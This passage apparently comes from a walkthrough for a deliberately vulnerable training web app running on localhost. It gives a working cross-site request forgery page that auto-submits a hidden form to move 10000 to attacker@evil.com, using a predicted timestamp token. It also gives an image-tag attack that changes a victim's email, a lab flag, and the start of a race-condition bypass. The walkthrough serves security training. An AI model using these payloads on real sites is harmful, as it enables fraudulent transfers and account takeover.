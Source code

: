 **Step 2: Analyze CSRF Token Weakness**
1. Examine the CSRF token generation in lab interface
2. Token format: `csrf_${timestamp}` (predictable!)
3. Token uses current Unix timestamp - easily guessable

**Step 3: Create Malicious Page**
```html
<!-- Save as evil.html and host on different origin -->
<!DOCTYPE html>
<html>
<body>
<h1>Win a Free iPhone!</h1>
<form id="csrf" action="http://localhost:5000/api/vuln/csrf-advanced/transfer" method="POST">
  <input type="hidden" name="recipient" value="attacker@evil.com">
  <input type="hidden" name="amount" value="10000">
  <input type="hidden" name="csrf_token" id="token">
</form>
<script>
  // Predict CSRF token using timestamp
  const timestamp = Math.floor(Date.now() / 1000);
  document.getElementById('token').value = 'csrf_' + timestamp;
  
  // Auto-submit form
  document.getElementById('csrf').submit();
</script>
</body>
</html>
```

**Step 4: Host and Test**
```bash
# Host malicious page on different port/domain
python3 -m http.server 8000

# When victim (logged into bank) visits http://localhost:8000/evil.html
# The SameSite=None cookie is sent with the CSRF attack!
# Flag: {CSRF_SAMESITE_BYPASS_SUCCESSFUL}
```

**Alternative Exploitation - GET-based Attack:**
```html
<!-- Simple image-based CSRF (no JavaScript required) -->
<img src="http://localhost:5000/api/vuln/csrf-advanced/change-email?email=attacker@evil.com">
```

**Why This Works:**
1. Cookie has `SameSite=None` - browser sends it cross-site
2. CSRF token is predictable (timestamp-based)
3. No Referrer validation on server
4. GET requests allowed for state-changing operations

### 9. Race Condition - TOCTOU Bypass

#### Bypass Method: Time-of-Check-Time-of-Use (TOCTOU) Exploitation
**Vulnerability:** Discount code validation and usage not atomic  
**Bypass:** Send multiple parallel requests before code is marked as used
